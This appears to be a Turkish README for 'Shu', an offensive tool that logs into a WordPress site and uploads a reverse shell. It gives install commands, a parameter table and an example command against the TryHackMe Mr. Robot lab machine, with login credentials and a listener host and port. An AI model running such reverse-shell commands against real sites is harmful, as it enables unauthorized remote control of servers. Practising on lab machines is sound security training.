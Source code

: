 # Shu
Shu, hazır içerik yönetim sistemlerinin zayıflıklarından yararlanarak reverse shell yükleyen bir programdır.

## Programın indirilmesi ve kurulması

```
git clone https://github.com/harveyspc/Shu/
cd Shu
pip3 install -r requirements.txt
```

Bu komutları kullanarak programı indirip kurduktan sonra `python3 shu.py --help` komutunu kullanarak programı nasıl çalıştırabileceğinizi öğrenebilirsiniz.

![4](https://github.com/Narisca/Shu/assets/165813191/0efbd39a-d976-461d-ba17-b329aa65b53f)

## Örnek kullanm

Örnek olması amacıyla tryhackme.com platformunda bulunan mr.robot makinesi üzerinde deneyeceğim.

```
python3 shu.py --target http://10.10.236.255/wp-login.php --username elliot --password ER28-0652 --local-host 10.9.0.25 --local-port 4444 --plugin wordpress
```

![3](https://github.com/Narisca/Shu/assets/165813191/9a0ddbf2-1965-4322-affb-a1086365f3ce)

## Parametreler

```
--target-url,  -t    : Hedef sitenin giriş sayfasını belirtmenizi sağlar.
--plugin,      -x    : Hedef sitenin içerik yönetim sistemini belirtmenizi sağlar..
--username,    -u    : Kullanıcı adını belirtmenizi sağlar.
--password,    -p    : Kullanıcı şifresini belirtmenizi sağlar.
--local-host,  -L    : Yerel ağ adresinizi belirtmenizi sağlar.
--local-port,  -P    : Dinlenilen port'u berlirtmenizi sağlar.
```

## Kullanılabilir hazır içerik yönetim sistemleri
- wordpress
